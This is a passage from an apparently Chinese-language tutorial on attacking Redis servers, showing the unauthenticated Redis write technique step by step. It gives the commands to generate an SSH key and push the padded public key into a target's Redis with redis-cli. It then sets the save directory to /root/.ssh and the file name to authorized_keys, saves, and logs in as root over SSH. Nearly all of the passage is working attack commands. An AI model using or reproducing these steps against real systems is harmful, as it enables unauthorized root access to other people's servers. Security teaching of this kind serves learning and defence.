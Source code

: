 <div align=center><img src="./Redis%20攻击方式/9.png"></div>


 - 在攻击机的`/root/.ssh`目录里生成`ssh`公钥`key`:
```bash
# 生成 rsa 密钥
ssh-keygen -t rsa
```

 - 将公钥导入`key.txt`文件(前后用`\n`换行, 避免和`Redis`里其他缓存数据混合), 再把`key.txt`文件内容写入服务端`Redis`的缓冲里:

```bash
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > /root/.ssh/key.txt
cat /root/.ssh/key.txt | redis-cli -h 192.168.249.145 -x set xxx    // -x 代表从标准输入读取数据作为该命令的最后一个参数。
```

 - 使用攻击机连接目标机器`Redis`, 设置`Redis`的备份路径为`/root/.ssh`, 保存文件名为`authorized_keys`, 并将数据保存在目标服务器硬盘上:

```bash
redis-cli -h 192.168.249.145
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

 - 使用攻击机`ssh`连接目标受害机即可:

```bash
ssh 192.168.249.145
```

<div align=center><img src="./Redis%20攻击方式/10.png"></div>
